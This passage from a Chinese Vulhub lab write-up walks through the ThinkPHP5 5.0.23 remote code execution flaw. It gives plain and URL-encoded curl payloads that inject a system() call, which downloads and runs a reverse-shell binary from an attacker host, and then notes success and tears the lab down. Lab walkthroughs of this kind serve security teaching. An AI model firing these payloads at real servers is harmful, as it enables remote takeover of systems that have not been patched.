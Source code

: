 ```
curl http://centos7-6.local:8080/index.php?s=captcha -d "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=curl -so /tmp/reverse_tcp_shell http://kali.local/reverse_tcp_shell;chmod +x /tmp/reverse_tcp_shell;/tmp/reverse_tcp_shell;rm -f /tmp/reverse_tcp_shell"
```

用 BurpSuite 对漏洞进行 url 编码

![用 BurpSuite 对漏洞进行 url 编码](./../../../../images/Vulhub/thinkphp/ThinkPHP5%205.0.23%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/%E7%94%A8%20BurpSuite%20%E5%AF%B9%E6%BC%8F%E6%B4%9E%E8%BF%9B%E8%A1%8C%20url%20%E7%BC%96%E7%A0%81.png)

```
curl http://centos7-6.local:8080/index.php?s=captcha -d "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=%63%75%72%6c%20%2d%73%6f%20%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%20%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%36%2e%32%34%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%3b%63%68%6d%6f%64%20%2b%78%20%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%3b%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%3b%72%6d%20%2d%66%20%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c"
```

渗透成功

![渗透成功](./../../../../images/Vulhub/thinkphp/ThinkPHP5 5.0.23 远程代码执行漏洞/渗透成功.png)

切换到靶场目录

```
[root@centos ~]# cd /root/vulhub/thinkphp/5.0.23-rce/
```

关闭环境

```
┌──(root㉿kali)-[~]
└─# docker-compose down
```

---

参考链接

- [Vulhub](https://github.com/vulhub/vulhub)
- [Vulhub Document](https://vulhub.org/#/docs/)
